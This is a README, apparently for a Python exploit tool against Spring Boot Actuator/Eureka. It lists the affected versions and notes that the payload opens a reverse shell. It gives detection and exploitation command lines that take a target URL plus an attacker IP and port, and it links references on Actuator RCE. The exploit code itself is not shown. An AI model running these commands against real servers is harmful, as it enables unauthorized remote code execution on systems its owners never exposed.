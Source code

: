 ## Spring Boot eureka exp
```
 ___ _ __  _ __(_)_ __   __ _        _____  ___ __
/ __| '_ \| '__| | '_ \ / _` |_____ / _ \ \/ / '_ \
\__ \ |_) | |  | | | | | (_| |_____|  __/>  <| |_) |
|___/ .__/|_|  |_|_| |_|\__, |      \___/_/\_\ .__/
    |_|                 |___/                |_|
-------Spring Boot 2.x 无法利用成功---------
-------Spring Boot 1.5.x 在使用 Dalston 版本时可利用成功，使用 Edgware 无法成功--------
-------Spring Boot <= 1.4 可利用成功---------------
                          --by tea0 
``` 
## update 
目前 版本还存在问题，但是可利用，利用payload是采用反弹shell
## help
检测：
```angular2
python spring_boot_exp.py -u http://127.0.0.1:8090
```

利用：
```angular2
 python spring_boot_exp.py -u http://127.0.0.1:8090 -exp xx.x.xx.x -p 1000
```

## 参考资料
Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测
* https://github.com/rabbitmask/SB-Actuator

小米安全

* https://www.anquanke.com/post/id/195929